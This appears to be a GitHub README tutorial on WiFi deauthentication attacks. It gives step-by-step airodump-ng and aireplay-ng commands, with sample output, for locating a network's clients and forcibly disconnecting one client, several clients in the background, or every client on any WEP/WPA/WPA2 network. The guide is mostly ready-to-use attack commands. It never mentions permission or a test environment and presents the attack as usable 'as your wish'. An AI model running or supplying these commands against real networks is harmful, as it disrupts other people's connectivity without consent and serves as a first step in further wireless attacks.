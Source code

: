 ## Deauth-Attack

Every information security enthusiast probably  know this basic  deauthentication attack, and if you don't  know no need to worry this writeup will give a indepth knowledge about deauthentication attack.

---

##### WHAT IS DEAUTHENTICATION ATTACK ?

- It disconnects any client from your network
- No need to connect to that network
- No need to know its key
- Works against all wifi networks
  - WEP
  - WPA
  - WPA2

**This is done by the tool <mark> aireplay -ng </mark>**

> We are illustrating this attack in **wlan0** interface

The classic command to know about all networks near you is

STEP 1:

```bash
root@kali:~# airodump-ng wlan0

```

So you using the above command target  any desired network by specifying is's *channel(ch)* and *bssid*  to know all the clients connected to that specific network.

STEP: 2

```bash
root@kali:~# airodump-ng --channel 1  -- bssid  56:13:58:76:5B:55 wlan0

```
You will get something like This

```bash
CH  1 ][ Elapsed: 30 s ][ 2020-05-05 16:35                                

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

56:13:58:76:5B:55  -34 100      213       64    0   1  360  WPA2 CCMP   PSK  OnePlus 7T           

BSSID              STATION            PWR   Rate    Lost    Frames  Probe                         

56:13:58:76:5B:55  38:F9:D3:8A:D4:87  -30    1e-24      0       36                                 
56:13:58:76:5B:55  20:82:C0:7F:77:9B  -32    0e- 6      0       71                                 
56:13:58:76:5B:55  08:00:27:E6:E5:59  -33    54-1       0       50
root@kali:~#

```
Now you can deauthenticate any client as your wish by the below command


```bash
root@kali:~# aireplay-ng --deauth 10000 -a (MAC ADDRESS OF TARGET ACCESS POINT) -c (MAC ADDRESS OF MACINE TO DISCONNET) wlan0

```

MAC ADDRESS OF TARGET ACCESS POINT: BSSID
MAC ADDRESS OF MACINE TO DISCONNET: STATION
10000: packets using to deauthenticate

STEP 3: (IN ANOTHER TAB)
![](img/de/n3.png)


This will do your job but once you do this your bash screen will overflow and stuck by packets message and you can't write and more commands in bash.

**But what if you want to deauthenticate multiple clients ?**  

So here we have the solution to our above problem:

**Run aireplay-ng .... multiple times to deauthenticate multiple clients**

TIPS:
- Use  **&** at the end of the command to run it in the
- Use  **&>/dev/null** to redirect output to null

```bash
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 08:00:27:E6:E5:59 wlan0 &> /dev/null &

```
Hit Enter


```bash
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 08:00:27:E6:E5:59 wlan0 &> /dev/null &
[1] 14766
root@kali:~#

```
You will get an job id and bash will allow you to run any command and job will be running in background.

```bash
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 08:00:27:E6:E5:59 wlan0 &> /dev/null &
[1] 14766
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 20:82:C0:7F:77:9B wlan0 &> /dev/null
[2] 14785
root@kali:~#

```

- You can use **jobs** to see commands running in the background and **kill** to stop a specific job

```bash
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 08:00:27:E6:E5:59 wlan0 &> /dev/null &
[1] 14766
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 20:82:C0:7F:77:9B wlan0 &> /dev/null &
[2] 14785
root@kali:~#jobs
[1]- Running             aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 08:00:27:E6:E5:59 wlan0 &> /dev/null &
[2]+ Running             aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 20:82:C0:7F:77:9B wlan0 &> /dev/null &

```

Here you go smoothly in deauthenticating multiple clients . **But what if you want to disconnect all the devices**

To **disconnect** all clients connected to specific network

- Run the same **aireplay-ng** command
- Set the **BSSID** of target of NETWORK
- Omit the -c arguments (the client argument)


```bash
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 wlan0

```
Hit enter and you will successfully disconnect all the clients from that specific network.
>But if you get some **error** than follow the below commands to avoid error:

STEP1:

```bash
root@kali:~# airodump-ng wlan0

```
It will list all networks select the bssid and channel to deauthenticate all clients.


STEP 2:
```bash
root@kali:~# airodump-ng  --bssid 56:13:58:76:5B:55  --channel 1  wlan0

```

STEP3: (Run this in another TAB)

```bash
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 wlan0

```

See deauthentication attack is required in attack you can treat as a small part of any other attck so keep a good grip on it.

Author - [Error](https://github.com/Error-200)
